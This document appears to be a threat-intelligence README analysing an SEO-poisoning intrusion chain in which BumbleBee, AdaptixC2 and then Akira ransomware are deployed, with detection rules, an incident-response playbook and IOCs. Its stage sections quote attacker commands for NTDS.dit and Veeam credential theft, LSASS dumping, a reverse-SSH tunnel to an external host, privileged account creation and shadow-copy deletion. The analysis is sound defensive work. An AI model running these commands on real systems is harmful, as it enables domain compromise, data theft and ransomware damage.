

# From Bing search to NTDS.dit: BumbleBee sideloads, AdaptixC2 drives, Akira encrypts (DFIR Report x Swisscom)

## TL;DR

The DFIR Report, in partnership with Swisscom B2B CSIRT, published a consolidated technical analysis on 2026-06-29 of a Bing SEO-poisoning intrusion set that turns a search for IT admin software into domain-wide Akira ransomware. An administrator searching Bing for "ManageEngine OpManager" is steered to a lookalike (`opmanager[.]pro`) that redirects to a delivery gateway (`download-center[.]online`) serving a trojanized MSI; the MSI installs the real application while DLL-sideloading the BumbleBee loader (a signed `consent.exe` loads a malicious `msimg32.dll`). Roughly five hours later BumbleBee drops AdaptixC2 as `AdgNsy.exe` — a renamed legitimate Windows Address Book (`wab.exe`) injected with beacon shellcode and launched via WMI so it runs under `WmiPrvSE.exe`. Hands-on-keyboard, the operator creates `backup_EA` in Enterprise Admins, RDPs to a domain controller, dumps `NTDS.dit` with `wbadmin.exe`, decrypts Veeam credentials from PostgreSQL over DPAPI, dumps LSASS across three hosts with a `comsvcs.dll` MiniDump chain (lsassy-style), runs SoftPerfect Network Scanner (`n.exe`), exfiltrates roughly 77 GB over a reverse-SSH tunnel plus FileZilla SFTP to a server in Ukraine, then deploys Akira (`locker.exe`) across the root domain at about 44 hours and returns on day five to encrypt the child domain. The underlying intrusions date to the May and July 2025 waves (first flagged by Cyjax in May 2025; DFIR/Swisscom flash alert in August 2025), but the full consolidated report landed 2026-06-29, which is why it anchors today's Friday deep-dive. There is no CVE in this chain — it is delivery plus tradecraft — so every durable detection here is behavioral.

## Attribution and confidence

Cluster: an **unattributed, financially motivated e-crime intrusion set** whose tooling is BumbleBee (loader) -> AdaptixC2 (post-exploitation C2) -> Akira (ransomware impact). The DFIR Report does not name an actor; it tracks the campaign by its delivery mechanism (SEO poisoning of IT-software brands) and its tooling. Public analysis: **The DFIR Report + Swisscom B2B CSIRT** (consolidated report 2026-06-29; earlier customer threat brief July 2025 and public flash alert 2025-08-05). Adjacent reporting: **Cyjax** first identified the broader BumbleBee SEO-poisoning campaign in May 2025; **Zscaler** documented a near-identical delivery fingerprint in October 2025 that dropped an Ivanti VPN credential stealer instead of ransomware (MSI signed by a Chinese entity, hard-coded Azure C2 `4.239.95[.]1:8080`).

Attribution confidence: **high (mechanism, tooling and IOCs) / low (operator identity)**. The exfiltration server geolocates to Ukraine (AS-COLOCROSSING) and the trojanized MSIs were signed with certificates issued to Russian-registered shell companies (for example "LLC Vector", "LLC Resource+"), but neither fact establishes attribution — code-signing shells and bulletproof hosting are rented. Akira remains an active ransomware-as-a-service brand into 2026; BumbleBee is a widely shared access-broker loader; AdaptixC2 is an open-source adversary-emulation framework being adopted for real intrusions. None of the three implies a single named group.

| Overlap candidate | Basis | Assessment |
|---|---|---|
| Akira RaaS (Storm-1567) | Terminal `locker.exe` payload, `-n`/`-p` CLI flags, shadow-copy deletion | Confirmed family; this is a distinct intrusion from the repo's SonicWall Akira case |
| BumbleBee loader | Conti/TrickBot-lineage loader, now a generic initial-access commodity | Tooling link only, not an actor link |
| AdaptixC2 | Open-source C2 (`Adaptix-Framework/AdaptixC2`), default HTTP beacon profile | No attribution value; adoption is spreading across crews |

Genealogy vs previous repo cases: this is the **first BumbleBee and first AdaptixC2 case** in the diary and the first that anchors on the AD-DFIR post-compromise chain (NTDS.dit via `wbadmin`, Veeam DPAPI credential theft, lsassy-style LSASS dumping). It complements but does not overlap `2026-05-05_Akira-SonicWall-CVE-2024-40766`, where Akira is the same terminal brand but the initial access (SonicWall SSL-VPN CVE-2024-40766), the tradecraft (Impacket + RustDesk + BYOVD smash-and-grab) and the dwell profile are entirely different. The shared lesson across both is that Akira is a delivery-agnostic payload — you defend the intrusion, not the brand.

## Kill chain — summary table

| Stage | MITRE | Detail |
|---|---|---|
| Initial access | T1189, T1204.002 | Bing SEO poisoning: `opmanager[.]pro` -> `download-center[.]online` -> trojanized `ManageEngine-OpManager.msi`; admin runs it from an internal host |
| Execution / sideload | T1574.001 | MSI drops `consent.exe` + malicious `msimg32.dll` into `%TEMP%\ApplicationInstallationFolder_11`; `consent.exe` sideloads the BumbleBee loader; CIS-locale geofence aborts on Russian/Ukrainian/Belarusian locales |
| C2 foothold | T1568.002, T1071.001, T1055, T1047 | BumbleBee beacons over HTTPS/443 to DGA `.org` domains; ~5 h later drops `AdgNsy.exe` (renamed `wab.exe` + AdaptixC2 shellcode) launched via WMI, running under `WmiPrvSE.exe` |
| Discovery + accounts | T1082, T1033, T1018, T1046, T1135, T1087.002, T1482, T1069.002, T1136, T1543.003, T1219 | `systeminfo`, `nltest /dclist:`, `whoami /groups`, `net group "domain admins" /dom`; creates `backup_DA` and `backup_EA` (added to Enterprise Admins); installs RustDesk as a Windows service |
| Credential access (critical) | T1003.003, T1003.001, T1555 | RDP to DC as `backup_EA`; `wbadmin` NTDS.dit + SYSTEM/SECURITY backup; Veeam PostgreSQL `credentials` table dumped and DPAPI-decrypted; lsassy-style `comsvcs.dll` LSASS MiniDump across three hosts |
| Lateral + exfil | T1021.001, T1021.003, T1090, T1039, T1048.001, T1041 | RDP + DCOM lateral; SoftPerfect `n.exe` recon; reverse-SSH tunnel (`-R *:10400`); FileZilla SFTP of ~77 GB to `185.174.100.203:22` (Ukraine) |
| Impact (critical) | T1486, T1490, T1047 | Akira `locker.exe -p=<drive> -n=<pct>`; shadow copies deleted via `Get-WmiObject Win32_Shadowcopy | Remove-WmiObject`; root domain at ~44 h, child domain on day five |



The diagram is two-lane. The left lane walks the victim from the poisoned Bing result and the trojanized MSI through the `consent.exe`/`msimg32.dll` sideload, the AdaptixC2 foothold, the discovery-and-account-creation burst, the critical credential-access stage (NTDS.dit, Veeam DPAPI, LSASS), the reverse-SSH + FileZilla exfiltration, and the critical Akira encryption finale. The right lane is the operator's machinery: the two-tier SEO-poisoning delivery network, the BumbleBee loader, the AdaptixC2 beacon, the hands-on-keyboard credential tradecraft, the RustDesk/SSH access-and-exfil infrastructure, and the Akira impact with its campaign genealogy. The durable detection anchors — a signed binary sideloading a DLL from `%TEMP%`/`%APPDATA%`, a WMI-spawned `wab.exe` masquerade beaconing outbound, and the `wbadmin`/`comsvcs`/Veeam-`psql` credential burst — are all host-behavioral and survive the DGA, IP and hash rotation.

## Stage-by-stage detail

### Stage 1 — Initial access via Bing SEO poisoning

An IT administrator searched Bing for "ManageEngine OpManager" and was steered to a lookalike front (`opmanager[.]pro`) that redirected to a delivery gateway (`download-center[.]online`) hosting a trojanized MSI. The delivery is two-tier: tier-1 impersonation fronts (`opmanager[.]pro`, `zenmap[.]pro`) and tier-2 gateways that serve payloads from a uniform `/Get?q=<toolname>` parameter, all resolving to Hostinger (AS47583). The MSIs were signed with certificates issued to Russian-registered shell LLCs (a revoked "LLC Resource+" cert had a history of signing BumbleBee). Targeting IT staff is the point: administrators carry the privileges that collapse a domain in one step, and a trusted search result bypasses the suspicion people reserve for email lures.

```
Bing "ManageEngine OpManager"
  -> opmanager[.]pro              (tier-1 impersonation front)
  -> download-center[.]online     (tier-2 delivery gateway, /Get?q=opmanager)
  -> ManageEngine-OpManager.msi   (trojanized; installs real app + BumbleBee)
# Swisscom sibling intrusion: ip-scanner[.]org -> Advanced-IP-Scanner.msi
```

MITRE: T1189 Drive-by Compromise; T1204.002 User Execution: Malicious File; T1608 Stage Capabilities (delivery infrastructure).

### Stage 2 — Execution and BumbleBee DLL sideload

The MSI dropped three files into `%TEMP%\ApplicationInstallationFolder_11`: the legitimate `ManageEngine_OpManager_64bit.exe` decoy, a legitimate signed `consent.exe`, and a malicious `msimg32.dll` (the BumbleBee first-stage loader). When `consent.exe` executed it prioritized the local malicious `msimg32.dll` over the real one in `C:\Windows\System32` — classic search-order DLL sideloading, which also tripped the Sigma "System File Execution Location Anomaly" (a signed system binary running from `%AppData%`/`%TEMP%`). The BumbleBee loader geofences: it calls `GetSystemDefaultLocaleName()` and, if the locale is one of 27 CIS-region values (Russia, Ukraine, Belarus and neighbours), calls `ExitProcess()` and does nothing.

```
%TEMP%\ApplicationInstallationFolder_11\
   ManageEngine_OpManager_64bit.exe   (legit decoy, shown to the user)
   consent.exe                        (legit, signed - sideload host)
   msimg32.dll                        (BumbleBee loader - loaded in place of System32 copy)
# geofence: GetSystemDefaultLocaleName() in {27 CIS locales} -> ExitProcess()
```

MITRE: T1574.001 Hijack Execution Flow: DLL Search-Order Hijacking; T1480 Execution Guardrails (locale geofence); T1036 Masquerading.

### Stage 3 — C2 foothold: BumbleBee to AdaptixC2

BumbleBee beaconed over HTTPS/443 to DGA-generated `.org` domains (14-character labels in this wave) and to hard-coded IPs `188.40.187[.]145`, `109.205.195[.]211` and `171.22.183[.]43`. Roughly five hours after execution it pulled down and staged `AdgNsy.exe` — a renamed copy of the legitimate Windows Address Book binary (`wab.exe`) injected with AdaptixC2 shellcode. The operator launched it via WMI, so `AdgNsy.exe` spawned under `WmiPrvSE.exe` with `OriginalFileName` still reading `WAB.EXE` from an `%AppData%\Local` path — a high-fidelity masquerade tell. The result was an AdaptixC2 HTTP beacon (default profile) to `172.96.137[.]160` (Shock Hosting); in the Swisscom sibling intrusion the same technique injected the Windows Contacts utility and beaconed to `170.130.55[.]223`.

```
BumbleBee  --HTTPS/443-->  <14char>.org (DGA) ; 188.40.187[.]145 ; 109.205.195[.]211 ; 171.22.183[.]43
   ~5h later stages:  %AppData%\Local\AdgNsy.exe   (renamed wab.exe + AdaptixC2 shellcode)
   launched via WMI -> ParentImage=WmiPrvSE.exe , OriginalFileName=WAB.EXE
AdaptixC2 HTTP beacon -> 172.96.137[.]160   (Shock Hosting, default profile)
```

MITRE: T1568.002 Domain Generation Algorithms; T1071.001 Application Layer Protocol: Web Protocols; T1055 Process Injection; T1047 Windows Management Instrumentation; T1036 Masquerading.

### Stage 4 — Discovery and privileged account creation

About five hours in, discovery ran from `AdgNsy.exe` using living-off-the-land binaries: `systeminfo`, `nltest /dclist:`, `nltest /domain_trusts`, `whoami /groups`, `net group "domain admins" /dom`, plus SMB/RDP/LDAP scanning. The operator then created two domain accounts and elevated one, giving itself durable privileged identities independent of the beacon, and installed RustDesk as a Windows service on internal servers for a second, GUI-based access path (which it reused on day five).

```
cmd /c systeminfo
cmd /c nltest /dclist:
cmd /c nltest /domain_trusts
cmd /c whoami /groups
cmd /c net group "domain admins" /dom
net user backup_DA P@ssw0rd1234 /add /dom
net user backup_EA P@ssw0rd1234 /add /dom
net group "enterprise admins" backup_EA /add /dom
"C:\Program Files\RustDesk\RustDesk.exe" --tray      (installed as a service)
```

MITRE: T1082 System Information Discovery; T1033 System Owner/User Discovery; T1018 Remote System Discovery; T1046 Network Service Discovery; T1135 Network Share Discovery; T1087.002 Account Discovery: Domain Account; T1482 Domain Trust Discovery; T1069.002 Permission Groups Discovery: Domain Groups; T1136 Create Account; T1543.003 Windows Service; T1219 Remote Access Software.

### Stage 5 — Credential access: NTDS.dit, Veeam DPAPI, LSASS (critical)

On day two the operator RDP'd to a domain controller as `backup_EA` and dumped the Active Directory database with the native `wbadmin.exe`, backing up `ntds.dit` together with the SYSTEM and SECURITY hives to a local `\\127.0.0.1\C$\ProgramData\` target. It then dumped the Veeam credential store: `psql.exe` reads the `credentials` table from the `VeeamBackup` PostgreSQL database, and a base64 PowerShell script DPAPI-decrypts the values (handling both legacy Veeam storage and newer versions with a hard-coded salt). On day three it dumped LSASS on three hosts with a `comsvcs.dll` MiniDump, cycling four remote-execution methods per host in about 50 seconds in the order smb -> wmi -> task -> mmc — the signature of the `lsassy` tool (Impacket `smbexec.py`/`wmiexec.py`/`atexec.py`/`mmcexec.py`), with dumps written to `\Windows\Temp` under deceptive extensions (`.sys`, `.docx`, `.avhdx`).

```
wbadmin start backup -backuptarget:\\127.0.0.1\C$\ProgramData\ ^
  -include:C:\windows\NTDS\ntds.dit,C:\windows\system32\config\SYSTEM,C:\windows\system32\config\SECURITY -quiet

"C:\Program Files\PostgreSQL\15\bin\psql.exe" -U postgres --csv -d VeeamBackup -w ^
  -c "SELECT user_name,password,description,change_time_utc FROM credentials"
# followed by: powershell.exe -e <base64>   (DPAPI-decrypts Veeam creds; hard-coded salt)

rundll32.exe C:\windows\System32\comsvcs.dll, #+000024 <PID> \Windows\Temp\<random>.<ext> full
# lsassy pattern: smb -> wmi -> task -> mmc, ~4 methods/host in ~50s
```

MITRE: T1003.003 OS Credential Dumping: NTDS; T1003.001 LSASS Memory; T1555 Credentials from Password Stores.

### Stage 6 — Lateral movement and exfiltration

Lateral movement was native Windows RDP (including RDP tunneled inside SSH) plus a DCOM path used during the LSASS chain. The operator opened a reverse-SSH tunnel from the DC (`ssh <redacted>@193.242.184.150 -R *:10400 -p22`), binding remote port 10400 back to local RDP so it could reach internal hosts through the firewall, and it ran SoftPerfect Network Scanner (`n.exe`, which writes a `delete.me` probe file) for share discovery. Data theft used FileZilla: after `C:\ProgramData\FileZilla_..._setup.exe` was executed (installer likely arriving over the RDP clipboard), two SFTP sessions moved roughly 77 GB to `185.174.100.203:22`, a server in Ukraine (AS-COLOCROSSING); SYSVOL was accessed at the same time and was likely taken with it.

```
ssh <redacted>@193.242.184.150 -R *:10400 -p22          (reverse tunnel: remote 10400 -> local RDP 3389)
n.exe                                                    (SoftPerfect Network Scanner; drops delete.me)
C:\ProgramData\FileZilla_3.68.1_win64_sponsored2-setup.exe
FileZilla SFTP -> 185.174.100.203:22   (~77 GB over two sessions; Ukraine, AS-COLOCROSSING)
```

MITRE: T1021.001 Remote Desktop Protocol; T1021.003 Distributed Component Object Model; T1090 Proxy; T1039 Data from Network Shared Drive; T1048.001 Exfiltration Over Symmetric Encrypted Non-C2 Protocol; T1041 Exfiltration Over C2 Channel.

### Stage 7 — Impact: Akira encryption and day-five return (critical)

At about 44 hours the operator staged `C:\ProgramData\locker.exe` (Akira) and ran it with path and percentage flags, deleting shadow copies immediately before or after each instance with a WMI PowerShell one-liner. It encrypted the root domain first, and returned on day five over RustDesk to reach a child domain controller and run the ransomware there (executed dozens of times on that DC). In the Swisscom sibling intrusion the binary was `win.exe`, run as `.\win.exe -n=2 netonly`, preceded by a WMIC service-kill sweep read from a `hosts1.txt` host list.

```
C:\ProgramData\locker.exe -p=G:\ -n=15          ( -p target path ; -n percent of each file )
powershell.exe -Command "Get-WmiObject Win32_Shadowcopy | Remove-WmiObject"
# Swisscom sibling:
.\win.exe -n=2 netonly
wmic /node:@C:\temp\hosts1.txt /failfast:on service where "Name Like '%sql%'" call ChangeStartmode Disabled
```

MITRE: T1486 Data Encrypted for Impact; T1490 Inhibit System Recovery; T1047 Windows Management Instrumentation.

## RE notes

| Component | SHA256 | Lang | Packer | Notes |
|---|---|---|---|---|
| ManageEngine-OpManager.msi (trojanized installer) | 186b26df63df3b7334043b47659cba4185c948629d857d47452cc1936f0aa5da | MSI | none | Installs real app + drops BumbleBee; signed by revoked shell-LLC cert |
| msimg32.dll (BumbleBee loader) | a6df0b49a5ef9ffd6513bfe061fb60f6d2941a440038e2de8a7aeb1914945331 | C/C++ | custom | Sideloaded by `consent.exe`; CIS-locale geofence; DGA `.org` C2; dictionary-derived (gibberish) PE metadata |
| locker.exe (Akira) | de730d969854c3697fd0e0803826b4222f3a14efe47e4c60ed749fff6edce19d | C++ | none | `-p`/`-n` CLI flags; WMI shadow-copy deletion; child-domain second wave |

BumbleBee is delivered as a DLL and runs inside the memory of the signed `consent.exe`, which is why the earliest static tell is a signed system binary loading `msimg32.dll` from a non-System32 path rather than any property of the DLL itself; its PE metadata is deliberately dictionary-derived gibberish (a builder pattern) and useful only as a weak heuristic. AdaptixC2 is an open-source framework: here the beacon is a renamed `wab.exe` (`AdgNsy.exe`) injected with shellcode and executed under `WmiPrvSE.exe`, so the durable signal is the process lineage and `OriginalFileName`/path mismatch, not a byte signature. The Akira `locker.exe` matched public Akira YARA (DITEKSHEN, SIGNATURE_BASE) and is confirmed by hash; the ransom-note filename and extension were not published in this report, so the YARA here anchors on the established Akira family markers cited to CISA rather than claiming them from this case.

## Detection strategy

### Telemetry that matters

- Sysmon EID 7 (image load) — a signed binary (`consent.exe`) loading `msimg32.dll` from `%TEMP%`/`%AppData%` instead of `System32` is the earliest sideload tell.
- Sysmon EID 1 (process creation) with full command line and parent — the WMI-spawned `wab.exe` masquerade (`ParentImage=WmiPrvSE.exe`, `OriginalFileName=WAB.EXE`), the `wbadmin` NTDS backup, the `psql` Veeam query, the `rundll32 comsvcs.dll` MiniDump, `ssh -R` and the WMI shadow-copy delete are all command-line visible.
- Sysmon EID 10 (process access) — `consent.exe` obtaining a handle on `AdgNsy.exe`, and repeated `lsass.exe` access with `0x1010`/`0x1410` masks from non-EDR callers.
- Defender XDR `DeviceImageLoadEvents`, `DeviceProcessEvents`, `DeviceNetworkEvents`; Sentinel `SecurityEvent` (4688 with command line), `Event` (Sysmon), plus `SecurityEvent` 4720/4728 for the new Enterprise Admins account.
- Windows Security 5145 (share access) for the SYSVOL/credential-store enumeration that precedes exfiltration.

### Detection coverage

| Engine | File | Logic |
|---|---|---|
| Sigma | sigma/bumblebee_consent_msimg32_sideload.yml | `consent.exe` loading `msimg32.dll` from a non-System32 path (image_load) |
| Sigma | sigma/adaptixc2_wab_masquerade_wmi_spawn.yml | `WmiPrvSE.exe` parent + `OriginalFileName` WAB.EXE run from AppData (process_creation) |
| Sigma | sigma/ntds_wbadmin_veeam_psql_credtheft.yml | `wbadmin` NTDS backup or `psql` Veeam `credentials` dump (process_creation) |
| KQL | kql/bumblebee_consent_msimg32_sideload.kql | DeviceImageLoadEvents: consent.exe + msimg32.dll non-system path |
| KQL | kql/adaptixc2_wab_wmiprvse_spawn.kql | DeviceProcessEvents: WmiPrvSE-spawned WAB masquerade beaconing out |
| KQL | kql/ntds_wbadmin_lsassy_comsvcs.kql | DeviceProcessEvents: wbadmin NTDS + comsvcs LSASS + Veeam psql |
| KQL | kql/akira_shadowcopy_delete_locker.kql | DeviceProcessEvents: WMI shadow-copy delete + locker.exe flags |
| YARA | yara/bumblebee_adaptixc2_akira.yar | Akira locker markers; Veeam DPAPI dump PowerShell; renamed SoftPerfect netscan |
| Suricata | suricata/bumblebee_adaptixc2_akira.rules | BumbleBee/AdaptixC2 C2 IPs + delivery domains + SFTP exfil host (infra-decay) |

No SPL is shipped (retired repo-wide 2026-05-11); convert any Sigma with `sigma convert -t splunk -p sysmon <rule>.yml`.

### Threat hunting hypotheses

- **H1 (PEAK)** — An installer executed from a user download/temp path is followed, within minutes, by a signed system binary (`consent.exe`) loading a system-named DLL (`msimg32.dll`) from a non-System32 path and then outbound HTTPS to a newly-seen `.org` domain. See `hunts/peak_h1_seo_msi_sideload.md`.
- **H2 (PEAK)** — `WmiPrvSE.exe` spawns a process whose `OriginalFileName` is `WAB.EXE` (or another built-in) from an `%AppData%` path that then beacons HTTP to a single low-reputation IP — the AdaptixC2 foothold. See `hunts/peak_h2_wmi_wab_beacon.md`.
- **H3 (PEAK)** — A credential-access burst on or near a DC (`wbadmin` including `ntds.dit`, `rundll32 comsvcs.dll` MiniDump on multiple hosts, `psql` against `VeeamBackup`) is followed by a reverse-SSH tunnel (`ssh -R`) and a FileZilla SFTP transfer to an external host. See `hunts/peak_h3_ntds_veeam_exfil.md`.

## Incident response playbook

### First 60 minutes (triage)

1. Isolate any host with `.akira`-encrypted files, a `locker.exe`/`win.exe` in `C:\ProgramData`, or an `AdgNsy.exe` (or other renamed `wab.exe`) in `%AppData%\Local` at the network layer; preserve memory before reboot.
2. Find the beachhead: search process-creation telemetry for `consent.exe` loading `msimg32.dll` from `%TEMP%`/`%AppData%`, and for the parent MSI executed from a user download path.
3. On domain controllers, check for `wbadmin start backup ... ntds.dit` and for `psql ... VeeamBackup ... credentials`; assume NTDS and Veeam credentials are compromised if present.
4. Pull surviving Sysmon/4688 command lines to the SIEM now — the operator deletes loaders and recon logs (Sysmon EID 23) as it goes.
5. Identify accounts created during the intrusion (`backup_DA`, `backup_EA`, any account added to Enterprise Admins) and any host where RustDesk was installed as a service.
6. Check egress for the reverse-SSH host `193.242.184.150:22` and the exfil host `185.174.100.203:22`, and block at the firewall.

### Artifacts to collect

| Artifact | Path | Tool | Why |
|---|---|---|---|
| Sideload pair | `%TEMP%\ApplicationInstallationFolder_11\{consent.exe,msimg32.dll}` | EDR / triage | Confirms BumbleBee delivery and the sideload host |
| Masquerade beacon | `%AppData%\Local\AdgNsy.exe` (renamed wab.exe) | EDR / memory | AdaptixC2 foothold; dump for config extraction |
| NTDS backup output | `C:\ProgramData\` (ntds.dit + SYSTEM + SECURITY) | File collection | Confirms domain-database theft; forces krbtgt/rotation planning |
| LSASS dumps | `\Windows\Temp\*.{sys,docx,avhdx}` | File collection | comsvcs MiniDumps with deceptive extensions |
| Process command lines | Sysmon EID 1 / Security 4688 | SIEM (pre-cleanup) | wbadmin, psql, comsvcs, ssh -R, WMI shadow-delete chain |
| New accounts + service installs | Security 4720/4728, System 7045 | SIEM | `backup_EA` to Enterprise Admins; RustDesk service |
| Exfil evidence | FileZilla `recentservers.xml`, Zeek/NetFlow to `185.174.100.203:22` | Host + network | Scope and destination of data theft (SYSVOL likely included) |

### IR queries and commands

```powershell
# Renamed wab.exe masquerade beacon (AdaptixC2 foothold)
Get-CimInstance Win32_Process -Filter "Name='AdgNsy.exe'" | Select ProcessId,CommandLine,ParentProcessId
Get-ChildItem "$env:LOCALAPPDATA" -Recurse -Include *.exe -ErrorAction SilentlyContinue |
  ForEach-Object { $v=$_.VersionInfo; if ($v.OriginalFilename -eq 'WAB.EXE' -and $_.Name -ne 'wab.exe') { $_.FullName } }
# New privileged accounts
net group "Enterprise Admins" /dom
Get-LocalUser | Where-Object { $_.Name -match 'backup_(DA|EA)' }
```

```bash
# From collected EVTX / SIEM export: the credential-access burst
grep -Ei 'wbadmin +start +backup.*ntds\.dit|comsvcs\.dll.* (MiniDump|#\+?0*24)|psql.*VeeamBackup.*credentials|ssh .* -R ' process_creation.log
```

```kql
// Defender XDR: signed consent.exe sideloading msimg32.dll from a non-system path
DeviceImageLoadEvents
| where Timestamp > ago(14d)
| where InitiatingProcessFileName =~ "consent.exe"
| where FileName =~ "msimg32.dll"
| where FolderPath !has @"\Windows\System32\" and FolderPath !has @"\WinSxS\"
| project Timestamp, DeviceName, InitiatingProcessFolderPath, FolderPath, SHA256
```

### Containment, eradication, recovery

- Containment exit criteria: no host still runs the sideload, the WMI-spawned masquerade beacon, or the credential-access burst; egress to the reverse-SSH and exfil hosts is blocked; intruder accounts disabled.
- Eradication: remove BumbleBee/AdaptixC2/RustDesk footholds, disable and delete `backup_DA`/`backup_EA`, rebuild encrypted servers from known-good media.
- Recovery: **because NTDS.dit was exfiltrated, plan a double `krbtgt` rotation** and reset all domain, service and Veeam credentials; restore from offline/immutable backups (Akira deletes shadow copies, so local shadows are gone).
- What NOT to do: do not treat "MFA/AV was on" as clearance — this chain is a signed sideload plus native tooling; do not rely on local event logs (loaders and recon logs are deleted as the operator works) — scope from SIEM-forwarded telemetry; do not reboot a live host hoping to clear it before memory is captured.

### Recovery validation

Confirm the double `krbtgt` rotation completed and replicated; confirm Veeam credentials and any credentials found in the DPAPI/browser/cloud stores enumerated at Stage 6 are rotated; confirm no residual `AdgNsy.exe`/renamed-`wab.exe`, RustDesk service, or `.akira` files remain; confirm Sysmon image-load and process-creation logging is collecting and forwarding again.

## IOCs

| Type | Value | Context | Confidence | Source |
|---|---|---|---|---|
| sha256 | 186b26df63df3b7334043b47659cba4185c948629d857d47452cc1936f0aa5da | ManageEngine-OpManager.msi trojanized installer | high | The DFIR Report 2026-06-29 |
| sha256 | a6df0b49a5ef9ffd6513bfe061fb60f6d2941a440038e2de8a7aeb1914945331 | msimg32.dll BumbleBee loader | high | The DFIR Report 2026-06-29 |
| sha256 | de730d969854c3697fd0e0803826b4222f3a14efe47e4c60ed749fff6edce19d | locker.exe Akira ransomware | high | The DFIR Report 2026-06-29 |
| domain | opmanager[.]pro | Tier-1 SEO impersonation front | high | The DFIR Report 2026-06-29 |
| domain | download-center[.]online | Tier-2 delivery gateway | high | The DFIR Report 2026-06-29 |
| domain | ev2sirbd269o5j[.]org | BumbleBee DGA C2 | high | The DFIR Report 2026-06-29 |
| ipv4 | 188.40.187.145 | BumbleBee C2 (HTTPS/443) | high | The DFIR Report 2026-06-29 |
| ipv4 | 109.205.195.211 | BumbleBee C2 (HTTPS/443) | high | The DFIR Report 2026-06-29 |
| ipv4 | 172.96.137.160 | AdaptixC2 beacon (Shock Hosting) | high | The DFIR Report 2026-06-29 |
| ipv4 | 193.242.184.150 | Reverse-SSH tunnel endpoint | high | The DFIR Report 2026-06-29 |
| ipv4 | 185.174.100.203 | FileZilla SFTP exfil server (Ukraine, AS-COLOCROSSING) | high | The DFIR Report 2026-06-29 |
| path | AdgNsy.exe | Renamed wab.exe injected with AdaptixC2 shellcode (%AppData%\Local) | medium | The DFIR Report 2026-06-29 |
| string | msimg32.dll sideloaded by consent.exe | BumbleBee sideload pair | high | The DFIR Report 2026-06-29 |
| string | wbadmin start backup ... ntds.dit | NTDS.dit theft command | high | The DFIR Report 2026-06-29 |
| string | Get-WmiObject Win32_Shadowcopy \| Remove-WmiObject | Akira shadow-copy deletion | high | The DFIR Report 2026-06-29 |

This intrusion set uses no CVE of its own — initial access is SEO poisoning plus DLL sideloading, not vulnerability exploitation. The only CVE referenced anywhere in this case is **CVE-2024-40766** (SonicWall SonicOS improper access control), cited in the attribution section solely to distinguish this chain from the repo's separate SonicWall-Akira case; it is on the CISA KEV catalog (added 2024-09-09, federal remediation due 2024-09-30, known ransomware use), and the generated `kev.md` records that status. Its presence here is genealogical, not a component of this attack — but it reinforces that Akira reaches victims through multiple, interchangeable initial-access vectors. The full machine-readable set — all 13 BumbleBee DGA `.org` domains, both C2 IP sets, the SoftPerfect `n.exe`/`delete.me` recon markers, hashes with SHA1/MD5, and command-string notes — is in `iocs.csv`. Network indicators (DGA domains, C2 and exfil IPs) decay and are marked infra-decay; the durable anchors are the host-behavioral rules. One source-level discrepancy is preserved in `iocs.csv`: one BumbleBee DGA domain appears as `2rxyt8yrhq0bgj[.]org` in the report's atomic IOC list but as `2rxyt9urhq0bgj[.]org` in its narrative — both spellings are recorded, neither is silently corrected.

## Secondary findings

- **Software acquisition is an attack surface, not just a procurement step.** SEO poisoning of IT-admin software brands (ManageEngine, Advanced IP Scanner, Zenmap, RVTools) delivers to exactly the users whose privileges collapse a domain, and a trusted Bing result bypasses email-phishing suspicion. Application allowlisting, verified download sources and browser download controls are the upstream fix; a signed binary sideloading a system-named DLL from `%TEMP%` is the downstream detection.
- **AdaptixC2 is the new tradecraft to learn.** An open-source adversary-emulation framework is now driving real ransomware intrusions, delivered as a renamed built-in (`wab.exe`) injected with shellcode and launched via WMI. The durable signal is process lineage and an `OriginalFileName`/path mismatch, not a static signature — the same detection logic generalizes to other living-off-the-land masquerades.
- **The report consolidates a year-long campaign.** The intrusions span the May and July 2025 waves; Cyjax first flagged the SEO campaign in May 2025, DFIR/Swisscom issued a flash alert in August 2025, and Zscaler documented an October 2025 sibling that swapped the ransomware for an Ivanti VPN credential stealer using the same delivery fingerprint. The delivery network and tooling are the through-line; the final payload is interchangeable.

## Pedagogical anchors

- Detect the sideload, not the loader: a signed system binary (`consent.exe`) loading a system-named DLL (`msimg32.dll`) from `%TEMP%`/`%AppData%` is a high-fidelity, hash-independent tell that fires at execution, long before ransomware.
- A built-in launched by `WmiPrvSE.exe` from `%AppData%` with its original filename intact (`WAB.EXE`) is a masquerade-plus-injection pattern; anchor on process lineage and `OriginalFileName`/path mismatch and the same rule catches AdaptixC2 and its imitators.
- `wbadmin` is a credential-access tool in this context: backing up `ntds.dit` off a DC is domain-database theft, and its presence should be treated with the same urgency as `ntdsutil` or a DCSync.
- NTDS exfiltration changes the recovery math: once the AD database leaves the building, containment requires a double `krbtgt` rotation and full credential reset, not just re-imaging the encrypted servers.

## What's in this folder

| File | Purpose | Link |
|---|---|---|
| README.md | This analysis. | [README.md](./README.md) |
